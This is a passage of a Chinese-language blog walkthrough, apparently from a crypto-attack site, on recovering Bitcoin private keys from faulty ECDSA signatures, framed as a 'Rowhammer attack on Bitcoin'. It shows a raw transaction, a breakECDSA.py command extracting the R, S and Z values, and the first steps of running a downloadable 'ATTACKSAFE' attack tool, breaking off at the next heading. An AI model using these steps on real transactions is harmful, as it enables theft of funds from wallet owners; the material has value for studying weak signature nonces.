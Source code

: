 
<pre class="wp-block-code"><code>RawTX = 0100000001cb9a792b88760ad20c67047c06d016ba4a069d036c4fbc5c09a8055fe786580f300000006a4730440220331353fedfd6e4d6805fc1f06443ade552a43a43237fb6c3de3c7f0969b4cc6702200bfec7e7d2ae249b3d69cd8d666b5ee833394af3b0703fa023579200d9ab2ff401210335a395eca8191c43ccee4d91e98b9baef39476d7482cf636e5b71975c69feebdffffffff013a020000000000001976a914e94a23147d57674a7b817197be14877853590e6e88ac00000000
</code></pre>



<h2>現在我們需要從所有易受攻擊的交易中獲取所有的 R、S、Z 值</h2>



<p>讓我們使用 breakECDSA.py 腳本</p>



<pre class="wp-block-code"><code>python2 breakECDSA.py 0100000001cb9a792b88760ad20c67047c06d016ba4a069d036c4fbc5c09a8055fe786580f300000006a4730440220331353fedfd6e4d6805fc1f06443ade552a43a43237fb6c3de3c7f0969b4cc6702200bfec7e7d2ae249b3d69cd8d666b5ee833394af3b0703fa023579200d9ab2ff401210335a395eca8191c43ccee4d91e98b9baef39476d7482cf636e5b71975c69feebdffffffff013a020000000000001976a914e94a23147d57674a7b817197be14877853590e6e88ac00000000</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-116-1024x306.png" alt="如何使用簽名錯誤獲取比特幣錢包的私鑰（對比特幣的 Rowhammer 攻擊）" class="wp-image-1183"/></figure>



<pre class="wp-block-code"><code>R = 0x331353fedfd6e4d6805fc1f06443ade552a43a43237fb6c3de3c7f0969b4cc67
S = 0x0bfec7e7d2ae249b3d69cd8d666b5ee833394af3b0703fa023579200d9ab2ff4
Z = 0x9d86bea51385f6a56835d0148e7f23a353605bab339127e800112307e6727d2d</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p><strong></strong><strong><a href="https://attacksafe.ru/software/" target="_blank" rel="noreferrer noopener">為了實施攻擊並獲取密鑰，我們將使用“ATTACKSAFE SOFTWARE”</a></strong><strong>軟件</strong><strong><a href="https://attacksafe.ru/software/" target="_blank" rel="noreferrer noopener"></a></strong></p>



<figure class="wp-block-image"><a href="https://attacksafe.ru/software/" target="_blank" rel="noreferrer noopener"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-14.png" alt="如何使用簽名錯誤獲取比特幣錢包的私鑰（對比特幣的 Rowhammer 攻擊）" class="wp-image-705"/></a><figcaption class="wp-element-caption"><strong><code>www.attacksafe.ru/software</code></strong></figcaption></figure>



<h2>訪問權限：</h2>



<pre class="wp-block-code"><code>chmod +x attacksafe</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-118.png" alt="如何使用簽名錯誤獲取比特幣錢包的私鑰（對比特幣的 Rowhammer 攻擊）" class="wp-image-1188"/></figure>



<h2>應用：</h2>



